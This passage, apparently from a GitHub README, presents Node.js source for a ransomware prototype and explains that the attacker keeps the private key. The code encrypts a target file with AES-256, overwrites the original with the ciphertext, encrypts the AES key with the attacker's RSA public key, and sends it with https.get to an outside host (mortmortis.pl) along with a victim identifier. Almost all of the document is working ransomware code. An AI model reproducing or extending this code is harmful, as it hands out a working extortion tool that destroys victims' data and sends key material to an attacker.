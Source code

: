 Private key will be stored on attackers machine, and public key will be distributed with ransomware.

```js
const crypto = require('crypto');

/**
 * Function encrypts message with given public key.
 *
 * @param {Buffer} publicKey
 * @param {Buffer} message
 */
function rsaEncrypt (publicKey, message) {
    return crypto.publicEncrypt(publicKey, message);
}
```

#### Summation

```js
const crypto = require('crypto');
const fs = require('fs');
const https = require('https');

const publicKeyBuffer = fs.readFileSync('./public.pem');

const AES_ALGORITHM = 'aes-256-ctr';
const AES_KEY_NAME = './aes-key';
const FILE_TO_ENCRYPT = './file';

/**
 * Function encrypts given input buffer using random AES-256 bit key.
 * Returns key buffer and encrypted message buffer
 *
 * @param {Buffer} message
 */
function aesEncrypt (message) {
    const key = crypto.randomBytes(256 / 8);
    const aes = crypto.createCipher(AES_ALGORITHM, key);
    const encryptedBuffer = aes.update(message);
    aes.final();

    return { message: encryptedBuffer, key }
}

/**
 * Function encrypts message with given public key.
 *
 * @param {Buffer} publicKey
 * @param {Buffer} message
 */
function rsaEncrypt (publicKey, message) {
    return crypto.publicEncrypt(publicKey, message);
}

// Encrypt file buffer with AES, get the encrypted buffer and encryption key back
const fileToEncrypt = fs.readFileSync(FILE_TO_ENCRYPT)
const { message: encryptedFileBuffer, key: encryptionKey } = aesEncrypt(fileToEncrypt);

// Overwrite file with encrypted bytes
fs.writeFileSync(FILE_TO_ENCRYPT, encryptedFileBuffer);

// Encrypt and send key to attacker (and save it to file, for test reasons)
const encryptedKey = rsaEncrypt(publicKeyBuffer, encryptionKey);
https.get(`https://mortmortis.pl/iamnotyourmum/${encryptedKey}/uniqueKeyForVictimIdentification`);
```